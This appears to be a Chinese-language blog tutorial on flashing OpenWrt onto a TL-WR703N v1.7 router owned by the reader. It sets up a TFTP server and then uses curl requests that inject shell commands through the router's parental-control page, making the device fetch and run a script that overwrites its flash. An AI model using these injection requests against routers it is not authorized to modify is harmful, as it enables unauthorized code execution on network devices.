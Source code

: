# TP-LINK TL-WR703N v1.7 openwrt flashing

> 喜欢请[star](https://github.com/ahangchen/windy-afternoon/blob/master/linux/raspbian/tlwr703n_openwrt.md)，转载请注明作者[梦里茶](https://github.com/ahangchen)

TP-LINK TL-WR703N是一个小型的路由器，可以有线转WiFi，3G转WiFi，很多人拿它刷openwrt系统，然后可以在上面各种搞事。

![TL-WR703N](wr703n.jpg)

### V1.7以前
通常刷openwrt的做法是，
- 下载一个openwrt [factory固件](http://downloads.openwrt.org/attitude_adjustment/12.09/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- 打开路由器，
- 笔记本连接路由器发出来的WiFi，比如：TP-LINK-90-1B-18
- 在浏览器输入192.168.1.1，选择左边“系统工具”-“软件升级”-“浏览”
- 找到刚刚下载的镜像bin文件，确定
- 然后就会自动把openwrt刷到板子里边了

### V1.7以后
然而！上面的方法只有在2012年12月以前生产的WR703N上（型号在FW build 121204以前的）才有用，在之后的板子上，选择完bin文件会提示“上传的文件与硬件版本不符”，导致无法从web管理界面刷写系统！具体来讲，如果你的型号（这个在路由器管理界面可以看到）跟我的一样是3.17.1 Build 140120 Rel.56593n，那么恭喜你中奖了，只能通过下面这种方式或者TTL硬件方式刷openwrt。

原因是，2012年12月之后的系统升级，对bin文件做了RSA签名校验，无法刷第三方的系统。

一番搜索之后发现有个[国外的牛人](https://pastebin.com/0wzMthfr)利用TP-LINK家长控制的漏洞，让路由板执行一些代码，成功刷写openwrt系统，这个方法的英文版也被放到了openwrt wr703n的官方wiki上，可以说是相当靠谱了，国内有人也整理了一个[中文版](https://boweihe.me/2015/11/02/wr703n-v1-7-%E7%A0%B4%E8%A7%A3openwrt%EF%BC%88%E6%8F%90%E7%A4%BA%E5%AF%86%E7%A0%81%E9%94%99%E8%AF%AF%E7%AD%89%E9%97%AE%E9%A2%98%E7%9A%84%E8%A7%A3%E5%86%B3%EF%BC%89/)，但有些步骤还是不够详细，于是我整理了一个完整的版出来，让大家少踩一些坑。windows的同学可以参考这个中文版，不过里边有些链接失效了，可以参考我这篇去找对应的工具。

### 搭建tftp服务器
因为我们会先把镜像下载并处理好放在一个ftp服务器上，所以需要另一台电脑扮演这个角色
- 以MacOS为例，MacOS是内置了tftp服务器的，不需要另外安装，
- 默认的ftp服务器会把将`/private/tftpboot`这个目录作为根目录
- 修改这个目录的权限

```shell
sudo chmod 777 /private/tftpboot
sudo chmod 777 /private/tftpboot/*
```

- 启动tftp服务

```shell
sudo launchctl load -F /System/Library/LaunchDaemons/tftp.plist
sudo launchctl start com.apple.tftpd
```

- 测试，在另一台电脑上，以Ubuntu为例，安装tftp客户端

```shell
cwh@cwh-Matrimax-PC:sudo apt-get install tftp
cwh@cwh-Matrimax-PC:~$ tftp
(to) 192.168.2.210
tftp> get aa
```

把Ubuntu和mac放在一个局域网里，mac的ip是192.168.2.210，在mac的`/private/tftpboot`目录下有一个名为aa的文件，执行`get aa`之后，会发现Ubuntu的home目录下多了一个aa文件，也就是文件传送成功了。

### 准备工具
- *Nix系统下curl，dd，都是自带的，不用下载，
- 下载busybox，这个是用来在wr703n上执行dd和reboot命令用的，默认的命令行执行不了

```shell
curl https://busybox.net/downloads/binaries/1.21.1/busybox-mips > busybox
```

链接有可能失效，可以谷歌搜索busybox binary download，下载mips版本的

- 下载openwrt固件并拆分成两份（因为wr703n的内存很小，可能传输的时候传不了整个文件）

```shell
curl https://downloads.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin -o openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```

- 将busybox, 拆开的固件i1, i2放到tftp服务器目录`/private/tfboot`下



### 编写Hack脚本
- 进入tftp服务器目录
- 新建文件aa（很随意的一个名字），里边内容为：

```shell
cd /tmp
tftp -gl i1 192.168.1.100
tftp -gl i2 192.168.1.100
tftp -gl busybox 192.168.1.100
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
reboot -f
```

解释一下每行代码

```shell
cd /tmp
tftp -gl i1 192.168.1.100 # 把i1从tftp服务器下载下来，这里的ip应该是，你的tftp服务器连接路由器之后，ifconfig看到的ip
tftp -gl i2 192.168.1.100 # 把i2从tftp服务器下载下来
tftp -gl busybox 192.168.1.100 # 把busybox从tftp服务器下载下来
chmod 755 busybox  # 修改busybox权限以执行命令
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync # 将i1写入磁盘分区
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync # 将i2写入磁盘分区
reboot -f # 重启，会启动openwrt
```
至此，你的tftp目录下应该有4个文件：i1, i2, aa, busybox，缺一不可

### Hack into TL-WR703N
这个方法是利用TPLINK家长控制漏洞，以curl的方式执行命令，让路由器从tftp服务器上下载脚本，执行命令，从而将openwrt固件写入路由器

> 【警告】以下步骤可能导致你的路由器变砖，请确认当前的路由器固件版本是3.17.1 Build 140120. 下述全过程请勿断开连接或是断开电源，本人不对产生的任何后果负责！另外，每一步都很重要，别忽略其中任何一步。一旦变砖，请用3.3V的串口线抢救

- 首先长按reboot按钮将路由器恢复出厂设置
- 将tftp服务器（这里是Mac）通过WiFi的方式连接到路由器，ifconfig记住自己的ip，我的是192.168.1.100
- 在tftp服务器上（连接到路由器的另外一台机器也行）执行

- 修改密码为admin42

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true' 'http://192.168.1.1/'
```

注意这里的192.168.1.1是路由器的ip地址, 这个步骤只会更改路由器家长控制的默认密码，刷完openwrt之后会恢复为openwrt的默认密码的

- 启用家长控制（利用漏洞）

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1'
```

- 让路由器从tftp服务器下载并执行脚本

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.100;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6'
```

等待大约三分钟，路由器会重启进入openwrt系统，状态灯会闪烁一会儿

### 进入openwrt系统
后边可以参考这位大兄弟写的[教程](https://gist.github.com/ninehills/2627163#%E5%88%9D%E5%A7%8B%E9%85%8D%E7%BD%AE2)，挺详细的了
